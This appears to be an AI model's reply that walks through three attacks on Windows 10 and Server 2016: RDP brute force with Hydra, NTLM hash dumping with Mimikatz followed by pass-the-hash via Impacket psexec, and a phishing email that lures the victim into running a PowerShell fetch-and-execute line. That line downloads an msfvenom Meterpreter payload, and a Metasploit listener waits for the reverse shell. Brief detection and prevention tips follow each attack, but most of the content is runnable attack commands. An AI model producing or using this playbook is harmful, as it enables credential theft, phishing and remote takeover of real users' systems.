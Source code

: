 Here’s a demonstration of **three additional attack techniques** that could be used to gain access to a Windows 10 desktop or Windows Server 2016:  

1. **RDP Brute Force Attack**  
2. **Pass-the-Hash Attack**  
3. **Phishing Attack (PowerShell Payload)**  

Each attack will include **step-by-step execution** and **detection & prevention tips**.

---

## **1. RDP Brute Force Attack**
### **Overview**
If Remote Desktop Protocol (RDP) is enabled on a Windows machine and has weak credentials, an attacker can use brute-force tools to guess the password.

### **Step 1: Enable RDP on Windows (for testing)**
To ensure RDP is enabled on your test Windows machine:
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name 'fDenyTSConnections' -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
Verify RDP is running:
```powershell
netstat -ano | findstr 3389
```

---

### **Step 2: Brute Force RDP Using Hydra**
On **Kali Linux**, install Hydra if not installed:
```bash
sudo apt update && sudo apt install hydra -y
```
Run Hydra against the Windows target:
```bash
hydra -L users.txt -P passwords.txt rdp://192.168.1.10
```
> Replace `192.168.1.10` with your **Windows target IP**.  
> Replace `users.txt` and `passwords.txt` with your username and password lists.

If successful, Hydra will return valid credentials.

---

### **Detection & Prevention**
- **Detect Failed RDP Logins**  
  Open **Event Viewer** → **Windows Logs** → **Security**  
  Look for **Event ID 4625** (failed login attempts).
- **Block Brute Force Attempts**  
  - Enable **Account Lockout Policy**:
    ```powershell
    net accounts /lockoutthreshold:3
    ```
  - Disable RDP if not needed:
    ```powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name 'fDenyTSConnections' -Value 1
    ```
  - Use **strong passwords** and **multi-factor authentication (MFA)**.

---

## **2. Pass-the-Hash Attack**
### **Overview**
This attack allows an attacker to authenticate as a user without knowing the plaintext password by using the **NTLM hash**.

---

### **Step 1: Extract NTLM Hashes**
If the attacker has **local admin** access, they can extract hashes using Mimikatz.

1. Download and run **Mimikatz**:
```powershell
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20201008/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
Expand-Archive -Path "mimikatz.zip" -DestinationPath .
```
2. Launch Mimikatz as **Administrator**:
```powershell
.\mimikatz.exe
```
3. Dump NTLM hashes:
```mimikatz
privilege::debug
lsadump::sam
```
> Example output:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
The **third field** is the NTLM hash.

---

### **Step 2: Use the Hash to Authenticate**
On **Kali Linux**, use **psexec.py** from Impacket:
```bash
sudo apt install impacket-scripts -y
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@192.168.1.10
```
This gives the attacker **SYSTEM-level access** to the target Windows machine.

---

### **Detection & Prevention**
- **Monitor for Unusual Logins**  
  Check **Event Viewer** → **Security Logs** for **Event ID 4624** (logins) from suspicious IPs.
- **Prevent Hash Dumping**
  - Disable **WDigest Authentication**:
    ```powershell
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
    ```
  - Enable **Credential Guard** to prevent hash dumping.

---

## **3. Phishing Attack (PowerShell Payload)**
### **Overview**
An attacker sends a phishing email with a **PowerShell payload** that executes a reverse shell.

---

### **Step 1: Create a Malicious PowerShell Script**
On **Kali Linux**, generate a PowerShell script:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh-reflection > payload.ps1
```
---

### **Step 2: Host the Malicious Script**
Start a **Python web server** to serve the payload:
```bash
python3 -m http.server 8080
```
---

### **Step 3: Craft a Phishing Email**
The attacker sends an email with:
```html
Dear User,  

We have detected unusual activity on your account. Please run the following security check in PowerShell:  

```powershell
iex (New-Object Net.WebClient).DownloadString("http://192.168.1.100:8080/payload.ps1")
```
This executes the script **without saving it**, giving the attacker access.

---

### **Step 4: Setup Metasploit Listener**
On **Kali Linux**:
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
Once the victim runs the script, the attacker gets a **remote shell**.

---

### **Detection & Prevention**
- **Detect Suspicious PowerShell Activity**
  Open **Event Viewer** → **Windows Logs** → **Security**  
  Look for **Event ID 4688** (PowerShell execution from unknown sources).
- **Prevent Execution of Malicious Scripts**
  ```powershell
  Set-ExecutionPolicy Restricted -Force
  ```
- **Use Email Filtering**  
  Block **.ps1, .exe, .bat** attachments in **Microsoft Exchange** or **Google Workspace**.

---

## **Final Thoughts**
These three attack vectors demonstrate how a **Windows system can be compromised**:
1. **RDP Brute Force** – Exploits weak passwords on Remote Desktop.
2. **Pass-the-Hash** – Uses stolen credentials to authenticate.
3. **Phishing (PowerShell Payload)** – Tricks users into running malicious scripts.

Would you like assistance in **hardening your Windows Server** against these attacks? 🚀